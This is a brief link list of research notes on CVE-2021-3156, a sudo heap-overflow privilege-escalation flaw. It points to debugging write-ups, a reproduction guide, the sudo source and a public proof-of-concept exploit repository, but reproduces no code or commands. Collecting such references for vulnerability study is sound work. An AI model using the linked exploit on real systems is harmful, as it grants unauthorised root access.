[https://a1ex.online/2021/02/01/cve-2021-3156%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90/](https://a1ex.online/2021/02/01/cve-2021-3156%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90/)

[https://blog.csdn.net/IronmanJay/article/details/139379712](https://blog.csdn.net/IronmanJay/article/details/139379712)

[https://github.com/chenaotian/CVE-2021-3156?tab=readme-ov-file](https://github.com/chenaotian/CVE-2021-3156?tab=readme-ov-file)

[https://www.52pojie.cn/thread-1439734-1-1.html](https://www.52pojie.cn/thread-1439734-1-1.html)

验证过程：[https://blog.csdn.net/IronmanJay/article/details/139379712](https://blog.csdn.net/IronmanJay/article/details/139379712)


sudo 源码：[https://www.sudo.ws/getting/source/](https://www.sudo.ws/getting/source/)


poc：[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)


